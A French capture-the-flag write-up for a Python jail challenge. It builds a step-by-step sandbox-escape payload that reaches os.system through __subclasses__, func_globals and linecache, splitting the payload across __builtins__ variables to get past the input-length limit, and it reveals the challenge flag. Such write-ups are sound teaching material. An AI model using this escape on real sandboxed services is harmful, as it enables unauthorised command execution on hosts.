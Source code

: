 # Python - Jail - Exec

## Description : 
> Dans ce défi, l'utilisateur est confronté à une jail python, déguisée en une simple calculatrice. Le but est de trouver le fichier de mot de passe situé quelque part dans un sous dossier (comme indiqué sur la page du challenge) et de l'afficher à l'écran. Pour ce faire, il faudra s'appuyer sur les techniques d'introspection en python.
En outre, la taille de l'entrée est limitée à un certain nombre de caractères, ce qui rend l'introspection un peu plus fastidieuse.

## Exploit : 
> L'objectif est donc de rechercher et de montrer le flag. Pour ce faire, il faut trouver un moyen d'exécuter des commandes système comme `ls` et `cat`.
> Il est possible d'afficher des objets liés à un type, comme **()**, en faisant **().\_\_class\_\_.\_\_dict\_\_**. En fait, **\_\_dict\_\_** est fortement utilisé pour explorer les objets à différents niveaux de profondeur, jusqu'à ce que l'on trouve **system.os**.
> 
> En raison de la limitation du nombre de caractères à l'entrée, il sera nécessaire de diviser le payload en plus petites portions et de stocker ces portions dans des variables. De nouvelles variables peuvent être définies en utilisant **\_\_builtins\_\_**. 
> 
> Le payload est construit comme suit
> 
> `__builtins__['b']=__builtins__`, ici on déclare une nouvelle variable **b** qui nous permettra d'appeler **\_\_builtins\_\_** en économisant des caractères. 
> 
> `b['o']=().__class__.__bases__[0]` , l'exploration vers le module à importer se fait donc à partir du type liste.
> 
> `b['c']=o.__subclasses__()`
> 
> `b['d']=c[59].__init__`
> 
> `b['e']=d.__getattribute__`
> 
> `b['f']=e("func_globals")`
> 
> Ici on s'intéresse au module **linecache** car il inclut probablement le module **os**
> 
> `b['g']=f["linecache"]`
> 
> `b['h']=g.__dict__['os']`
>
> On cherche **system** dans **os** avec
> 
> `h.__dict__.keys().index("system")` on trouve que **system** se trouve à l'index **144**
> 
> `b['j']=h.__dict__.values()[144]`
> 
> À ce stade, la fonction **os.system** est située dans la variable **j**. Il suffit donc de passer la commande à exécuter à **j** entre parenthèses pour obtenir un résultat.
> 
> On cherche d'abord à exécuter `ls` pour localiser le sous dossier du fichier flag
> 
> ![ls](screen1.PNG)
> 
> On remarque donc que le dossier qui nous intéresse est **GetTheFlagInThisDirectory**, qui est de toute évidence un nom trop long pour être passé comme paramètre à la fonction **j()**... 
> 
> Ce chemin doit être divisé en différentes variables, puis concaténé et passé en paramètre à la fonction **j()**.
> 
> ![exploit](result.PNG)
> 
> Le flag trouvé est donc : **PythonAlwaysHasAllYouNeed!**